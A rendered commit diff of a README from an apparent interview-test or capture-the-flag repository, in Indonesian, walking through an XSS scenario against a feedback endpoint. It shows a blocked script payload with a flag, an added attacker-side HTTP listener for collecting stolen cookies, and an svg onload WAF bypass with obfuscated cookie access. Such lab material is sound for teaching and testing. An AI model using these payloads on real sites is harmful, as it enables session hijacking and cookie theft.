

Before and after one commit to budi-khoirudin/interview-test-nauli, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
penyesuaian README.md

```diff
--- a/README.md
+++ b/README.md
@@ -117,6 +117,10 @@ curl -X POST http://<TARGET-IP>:3075/feedback \
   -d "name=red&message=<script>alert(1)</script>"
 # → 403 Forbidden   FLAG: SCENARIO75{403}
 
+# Listen server di sisi Attacker untuk gather cookie hasil exploit XSS
+python3 -m http.server 8080
+# → Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
+
 # Bypass — <svg onload> lolos WAF
 # Payload: window['docu'+'ment']['coo'+'kie']
 curl -X POST http://<TARGET-IP>:3075/feedback \
```
